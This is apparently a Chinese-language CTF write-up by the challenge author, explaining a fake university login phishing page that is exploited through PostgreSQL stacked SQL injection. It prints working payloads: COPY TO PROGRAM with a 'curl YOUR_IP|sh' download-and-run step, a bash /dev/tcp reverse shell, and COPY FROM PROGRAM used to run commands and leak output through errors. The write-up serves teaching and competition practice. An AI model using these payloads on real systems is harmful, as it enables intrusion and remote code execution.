

# (2/2) 邮件系统功能升级

## 【困难】统一身份认证

按顺序，前边其实都不算什么难题，甚至跟传统的 Web 都没啥关系。想着整点 Traditional，复古风，于是便有了该题。要引用就不能断章取义，把邮件里的假得不能再假的统一身份认证界面拿来加强一下，成为了大家现在看到的样子。这应该也是大家在做题过程中，第一道遇到的比较像 CTF 的题。

该题其实改编自互联网中的**真实案例**。给大家看几个我邮箱里收到的典例：

有**询问型**的，不是中奖了，就是叫你去继承遗产，要么就说找你进行一本万利的买卖。


有**账号型**的，不是邮箱过期了，就是检测到新的登录，要么就说存储空间已满。


有**支付型**的，不是信用卡失效，就是银行账户异常，要么就给你发个账单叫你确认。



有**威胁型**的，不是黑了你的网站，就是偷了你的密码，要么就说要把你的小视频发给亲朋好友。


有**看不懂型**的，不知道啥语就往我邮箱里边发。


当然，在国内更常见的其实不通过邮箱传播，而是 **QQ 等聊天工具**。大家在群里估计也经常会遇到，我就不多说了。那么言归正传，本次的题目其实相当于对盗号黑客的一个“**反制措施**”。他偷你密码，你就直接**脱他数据库**，非常的合理。我印象中，几年前经常遇到的很多模仿 QQ 登陆界面的盗号网站都是一个模板，我就那么随手一试，加了个单引号，诶，它就返回空白页面不转跳了。靠这种经典的 **SQL 注入**，在七八年前能直接吃下不少网站，可惜随着时代发展，ORM 框架的兴起，软件体系架构的完善，现在更是进入了 AI 代码的时代，这种野生的纯度极高的注入点实际已经基本上遇不到了，其实也不可惜，这是好事儿。

首先我这个假界面做得很逼真。小朋友们可以试着输入自己的**真实学号与真实密码**，会发现告诉你登录成功后就**直接转跳**到 stumail.neu.edu.cn 这个界面去了。这也是盗号网站的常用手法，你可能自己都不知道啥时候在钓鱼网站上输入了密码，它要么始终告诉你密码错误，要么你打啥都正确，最后再诶一转跳到官方网站上，你又输一遍密码登进去了，啥事没有，过几天 QQ 异地登录了才发现。

盗号网站为了防止你乱输，也为了不让你起疑心，一般也会对你的输入做一些基本的**合法性校验**。例如，QQ 盗号网站就喜欢整个屏幕键盘让你输，而不是调用手机默认的输入法。本题中，也是采用了类似的思想，校验了你输入的账号必须为**纯数字**并且在 **4~9 位**，否则提示账号不存在。所以用户名这个框是不可注入的。

在密码的框里打个**单引号**，会发现诶，爆出了一个经典的 **SQL Syntax Error**。


以上这些都可以在一无所知的情况下通过基本的 fuzz test 测试出来。到这里，眼熟的同学们可能可以看出来，这是一个经典的 **PostgreSQL 报错**形式。再加上善良的出题人给的提示，*PostgreSQL => RCE*，实际上本题差不多做完了已经。一般 CTF 的考法会加一堆黑名单字符让你绕过，但是在这里善良的出题人并没有这么做，显然大大降低了本题的难度。

看到报错信息，其实已经可以把原本的 SQL 语句猜个八九不离十了：```INSERT INTO record (username, password, time) VALUES ('$username', '$password', NOW());```  

这里有一个很重要的特性，就是 PostgreSQL / SQL Server 默认是支持**多行执行**的（又被称作 **Stacked Injection 堆叠注入**），而如 SQLite、MySQL、Access（也是数据库） 一般需要代码中明确使用支持多行执行的系列函数。

支持多行执行，原本的 SQL 语句也有了，再加上善良的出题人给的 hint（ https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce-to-program ），你可以使用如下的密码直接闭合原有的语句并**反弹 shell** ：

```',NOW()); COPY (SELECT '') TO PROGRAM 'curl YOUR_IP|sh'-- -```

其中 YOUR_IP 应该返回如下的语句： ```bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'```


**Very easy, my friend!**

更别说善良的出题人还贴心地为本题提供了外网访问支持，shell 可以弹到公网的服务器上，更可以通过一些在线 HTTP Request Inspector 服务来回显。

我注意到选手提交上来的 wp 中有使用 sqlmap 的，这玩意儿在盲注的情况下非常好用，但是本题可以爆错，error-based 就秒了。如果硬要用 sqlmap 跑的话，需要先分析请求格式。我是直接抄的 pass.neu.edu.cn 的 js 代码，ul 表示用户名长度，pl 表示密码长度，最后拼在 rsa 字段里，后边那些 ticket 啥的 CAS 相关内容就略过了，后端也不进行校验。

如果本题不出网，或者你懒得折腾 reverse shell，也是完全没有问题滴。

首先，我们输入如下的密码，可以验证其为 postgres  superuser ：

```
',NOW()); select cast((select current_user) as int); -- -
```


然后，拷一个 **COPY FROM** 的模板，借助一点 pgSQL 的语法知识，把**执行回显**塞进报错里：

```
',NOW()); CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'cat /flag';select cast((select string_agg(cmd_output,',') from cmd_exec) as int); -- -
```


**Still very easy, my friend!**

大家如果尝试注入获取数据库里的内容的话，会发现善良的出题人已经在里面提示 “try to get RCE” 了。

根目录下的 /flag 文件权限为 600，只有 root 能访问，因此题目环境中的 cat 命令被设置了 **SUID 标志位**，仅有 ```cat /flag``` 能够读取到 flag，防止 pgSQL 注入直接通过 pg_read_file() 读它，这也本题是要求 RCE 的原因。用了 cat 这个命令本意也是不想给大家设门槛，一般的 CTF 题目的话，这后面还会再套一层提权。

这个困难题是不是很简单呢，我的朋友？
